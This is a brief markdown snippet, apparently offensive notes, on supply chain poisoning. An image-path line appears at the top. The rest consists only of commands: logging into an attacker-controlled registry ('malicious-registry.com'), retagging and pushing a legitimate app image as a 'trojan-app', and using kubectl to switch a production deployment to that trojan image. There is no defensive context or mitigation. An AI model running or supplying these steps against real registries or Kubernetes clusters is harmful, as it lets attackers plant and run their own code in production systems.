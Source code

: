 # Supply Chain Poisoning

#### 1) Poisoning a container registry

    docker login -u attacker -p password malicious-registry.com

    docker tag legitimate-app:v1.0 malicious-registry.com/trojan-app:v1.0

    docker push malicious-registry.com/trojan-app:v1.0

#### 2)  Deploying the Trojan horse

    kubectl set image deployment/production-app app=malicious-registry.com/trojan-app:v1.0
